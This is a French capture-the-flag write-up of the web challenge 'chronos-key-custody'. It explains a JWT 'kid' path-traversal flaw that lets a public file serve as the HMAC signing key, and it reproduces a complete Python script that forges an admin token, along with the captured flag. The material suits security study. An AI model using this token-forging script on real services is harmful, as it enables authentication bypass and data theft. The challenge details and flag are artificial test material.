



# Writeup : chronos-key-custody

Catégorie : web

Date de résolution : 2026-11-06

Technique principale : JWT kid path traversal / HMAC key confusion

Outils observés : curl,python,hmac

Cible : Key Custody assigned web instance

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/chronos-key-custody. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Exploitation

kid=../public/brand.txt; payload sub=analyst-recon-17, role=admin

### Pourquoi ça marche

Un resolver kid qui concatène un chemin permet de choisir un fichier public comme clé HS256.

### Pièges

Conserver exactement les octets de brand.txt, newline inclus.

### Notes locales conservées

# Chronos :  Key Custody

1. Challenge ID: `9103`, Web container.
2. Instance: endpoint fourni par `view_info`.
3. `/schema` confirme JWT HS256 et résolution de clé via header `kid`.
4. Vulnérabilité: path traversal `kid=../public/brand.txt`.
5. Le contenu public de `GET /public/brand.txt` sert de clé HMAC.
6. Payload forgé: `{"sub":"analyst-recon-17","role":"admin"}`.
7. Endpoint exploité: `GET /admin/recovery-key`.
8. Flag extrait et soumis: à vérifier.


## Journal
9. 2026-11-06T13:26:34Z unknown : kid path traversal via public/brand.txt; flag extrait et accepté par CTFd.

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/chronos-key-custody
file notes.md solve.py 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' solve.py 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `solve.py` est reproduit ci-dessous sans modification :

```python
#!/usr/bin/env python3
"""Exploit Key Custody: kid path traversal vers public/brand.txt."""

from __future__ import annotations

import base64
import hashlib
import hmac
import json
import sys
import urllib.request


def b64(data: bytes) -> str:
    return base64.urlsafe_b64encode(data).rstrip(b"=").decode()


def main(base: str) -> None:
    base = base.rstrip("/")
    key = urllib.request.urlopen(base + "/public/brand.txt").read()
    header = {"alg": "HS256", "typ": "JWT", "kid": "../public/brand.txt"}
    payload = {"sub": "analyst-recon-17", "role": "admin"}
    signing = ".".join((b64(json.dumps(x, separators=(",", ":")).encode()) for x in (header, payload)))
    signature = b64(hmac.new(key, signing.encode(), hashlib.sha256).digest())
    token = signing + "." + signature
    req = urllib.request.Request(
        base + "/admin/recovery-key",
        headers={"Authorization": "Bearer " + token},
    )
    print(urllib.request.urlopen(req).read().decode())


if __name__ == "__main__":
    main(sys.argv[1])
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

Le flag est conservé dans le fichier local flags.txt ou flag.txt. Aucune validation externe supplémentaire n’est affirmée ici.

Flag obtenu : `CSCTF{TQSniw3JerxkWZDykT3zBeca}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
